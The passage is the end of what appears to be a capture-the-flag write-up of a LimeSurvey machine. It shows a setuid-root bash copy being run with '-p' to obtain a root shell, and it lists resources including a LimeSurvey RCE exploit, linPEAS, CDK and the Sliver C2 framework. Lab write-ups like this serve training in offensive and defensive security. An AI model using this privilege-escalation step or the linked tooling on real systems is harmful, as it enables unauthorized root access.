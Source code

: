 Now, we should be able to go back to our SSH session and verify that the file is there.

```
limesvc@ip-10-10-200-233:/opt/limesurvey$ ls -la | grep daz
-rwsr-xr-x   1 root    root    1234376 May 15 21:06 daz
```

You'll see now that this file is owned by root, but we'll still be able to run it as our current user. If we run it with the `-p` option (which stands for privileged mode), it should generate a session for us as root.

```
limesvc@ip-10-10-200-233:/opt/limesurvey$ ls -la | grep daz
-rwsr-xr-x   1 root    root    1234376 May 15 21:06 daz
limesvc@ip-10-10-200-233:/opt/limesurvey$ ./daz -p
daz-5.1# whoami
root
daz-5.1#
```

And that's it! The root flag is within `/root/root.txt`, and thus we have completed this machine.

# Conclusion

Big thanks to xct for creating this machine, it was very fun and helped strengthen some post-exploitation methodologies that I had experienced briefly in the past. The LimeSurvey installation was also really interesting and helped with some brainstorming into the attack path.

# Resources

https://www.geeksforgeeks.org/mysql-in-kali-linux-command-line/
https://www.strongdm.com/blog/mysql-create-user-manage-access-privileges-how-to#:~:text=Create%20a%20new%20MySQL%20user%20account&text=To%20create%20a%20new%20user,localhost'%20IDENTIFIED%20BY%20'password'%3B
https://github.com/Y1LD1R1M-1337/Limesurvey-RCE
https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS
https://github.com/cdk-team/CDK
https://github.com/BishopFox/sliver